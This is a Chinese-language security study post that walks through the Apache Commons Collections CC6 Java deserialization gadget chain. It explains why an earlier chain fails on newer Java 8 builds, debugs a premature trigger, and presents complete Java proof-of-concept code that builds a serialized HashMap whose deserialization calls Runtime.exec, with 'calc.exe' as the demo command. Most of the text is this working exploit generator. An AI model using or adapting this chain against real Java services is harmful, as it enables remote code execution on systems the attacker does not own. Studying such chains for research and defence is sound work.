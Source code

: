 ```yaml
---
created: '21/11/07'
title: 反序列化篇6
tags:
  - java
  - java安全
---
```

# 反序列化篇6
## CC6
反序列化篇5提到了CC1链在java8高版本并不适用，当我们去尝试，会产生报错:`java.lang.annotation.Retention missing element entrySet`。

这是由于`AnnotationInvocationHandler`在高版本中改变了readObject的逻辑，不再使用我们精心构造的`LazyMap`而是使用自己新建的`LinkedHashMap`，导致该对象无法获得`entrySet`的内容，所以会报前面的这个错误。

为了解决高版本的利用问题，我们需要重新构造链的前半部分，寻找是否有其他地方能够调用`LazyMap.get()`方法。

找到的地方是`org.apache.commons.collections.keyvalue.TiedMapEntry`，在其`getValue`方法中调⽤了`this.map.get`，而其`hashCode`，`toString`，`equals`方法都调用了自身的`getValue`方法。

```java
import org.apache.commons.collections.KeyValue;
public class TiedMapEntry implements Entry, KeyValue, Serializable { 
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map; private final Object key;
    public TiedMapEntry(Map map, Object key) { 
        this.map = map; this.key = key;
    }
    public Object getKey() { 
        return this.key;
   }
    public Object getValue() { 
        return this.map.get(this.key);
    }
    // ...
    public int hashCode() { 
    Object value = this.getValue();
    return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^(value == null ? 0 : value.hashCode());
    }
// ... 
}
```
在ysoserial中，是利用了`java.util.HashSet.readObject()`->`HashMap.put()`->`HashMap.hash(key)` ->`TiedMapEntry.hashCode()`。
而实际上，在`java.util.HashMap.readObject()`就有`hash(key)`的操作，我们可以利用此来构造gadget。

### 构造gadget
构造的时候使用了一些技巧，先创建了一个fakeTransformers，在序列化的前一刻才将其替换为真正的Transformers，这样能够防止我们在生成poc时的本地命令执行。
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1),
        };

        // 先使用fakeTransformer防止本地命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");

        Map objMap = new HashMap();
        objMap.put(tiedMapEntry, "valuevalue");

        // 使用反射替换transformerChain的transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```
当我们执行这段代码的时候，发现反序列化时并没有弹出来计算器! 这是为什么呢？

### 为什么没有成功执行
我们尝试在`LazyMap.get`方法中下一个断点调试一下，发现问题:
![](https://gitee.com/guuest/images/raw/master/img/20211107114655.png)

我们在构造gadget的时候就触发了`LazyMap.get`方法，导致`LazyMap`的假利用链被提前触发，而当我们真正想要去反序列化时，LazyMap已经存在`keykey`这个键，导致我们无法进入`this.factory.transfrom`这个语句触发我们真正的利用链，但是我们并没有去手动调用`LazyMap.get`，为什么这个方法会触发呢？

我们回顾源码，只有在`TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");`这句话中存在keykey，当我们去查看`HashMap.put`方法时，我们发现了罪魁祸首:
![](https://gitee.com/guuest/images/raw/master/img/20211107115113.png)
当我们构造gadget时会将`TiedMapEntry`手动put到HashMap，导致其触发了`hash(key)`->`TiedMapEntry.hashCode()`->`TiedMapEntry.getValue()`提前触发了我们的链，并且将该key存入了`outerMap`，下次我们真正利用时由于`outerMap`已经存在该key而导致利用链失败!

了解了原因之后我们就很好解决该问题了: 在`objMap.put`之后调用`outerMap.remove`删除该key即可。

### 最终poc
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1),
        };

        // 先使用fakeTransformer防止本地命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");

        Map objMap = new HashMap();
        objMap.put(tiedMapEntry, "valuevalue");
        outerMap.remove("keykey");

        // 使用反射替换transformerChain的transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

### 总结
整条链的调用逻辑为:
```
HashMap.readObject()
  hash(key) === key.hashCode() === TiedMapEntry.hashCode()
    TiedMapEntry.getValue()
      LazyMap.get()
         ChainedTransformer.transform()
	      ConstantTransformer.transform() // 获取Runtime.class
	      InvokerTransformer.transform()   // 获取Runtime.getRuntime
	      InvokerTransformer.transform()   // 获取Runtime实例
	      InvokerTransformer.transform()   // 调用exec方法触发rce
```